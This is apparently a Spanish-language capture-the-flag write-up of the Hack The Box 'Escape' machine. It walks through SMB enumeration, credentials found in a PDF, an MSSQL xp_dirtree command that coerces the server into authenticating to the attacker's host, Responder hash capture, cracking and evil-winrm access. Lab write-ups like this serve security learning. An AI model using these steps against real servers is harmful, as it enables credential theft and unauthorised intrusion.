 # EscapeWriteUp
Writeup de Escape HTB

Empezamos con un escaneo de nmap

~~~
sudo nmap -v -sS -oX vulnerabilidades.xml --stylesheet="https://svn.nmap.org/nmap/docs/nmap.xsl" --script=vuln 10.10.11.202 -Pn -p-
~~~

![imagen](https://user-images.githubusercontent.com/108554878/225091888-805b94d6-57ee-498d-af53-2c3c3c00bea3.png)


Vemos smb en el 445, mssql en el 1433 y winrm en el 5985

Primero que nada entramos de forma anónima a smb 

![imagen](https://user-images.githubusercontent.com/108554878/225092170-f200660f-a15e-40b8-ae23-c93d50935bc2.png)

Vemos varias carpetas

Entremos a public

![imagen](https://user-images.githubusercontent.com/108554878/225092256-ca7e5137-d942-40ca-a97e-8a878a277018.png)

Vemos un pdf

Dentro del pdf encontramos unas credenciales

![imagen](https://user-images.githubusercontent.com/108554878/225092313-54426388-d5f5-476b-a821-4dc22c83dfdf.png)

Con esto nos logueamos en mssql

![imagen](https://user-images.githubusercontent.com/108554878/225092412-f47b7273-20a7-4d2c-80dd-b48e7ecb6589.png)

Estando aqui leemos que se puede hacer en mssql para entrar a la máquina

https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server

Después de intentar varias cosas que vienen en la documentación ponemos

~~~
exec master.dbo.xp_dirtree '\\10.10.14.168\any\thing'
~~~

Seteamos con responder algo que consiga las credenciales NTLMv2

~~~
sudo responder -I tun0 -w 
~~~

![imagen](https://user-images.githubusercontent.com/108554878/225092571-457a1cea-ac33-4e26-84c3-91273dd7b1c1.png)

Ahora crackeamos el hash

![imagen](https://user-images.githubusercontent.com/108554878/225092636-eb65cfa3-2f09-43ec-81e0-e86baa09556c.png)

Encontramos las credenciales y entramos con evilwinrm

![HTB](https://user-images.githubusercontent.com/108554878/225093047-66a8ac6e-ca60-4b73-aa5e-4236317578dd.png)

Entramos con evil-winrm

Vemos que hay un errorlog .BAK

Aquí encontramos las credenciales de Ryan.Cooper

![HTB](https://user-images.githubusercontent.com/108554878/225093457-d8d46db7-36ee-45a0-8b0d-e3299bb386db.png)


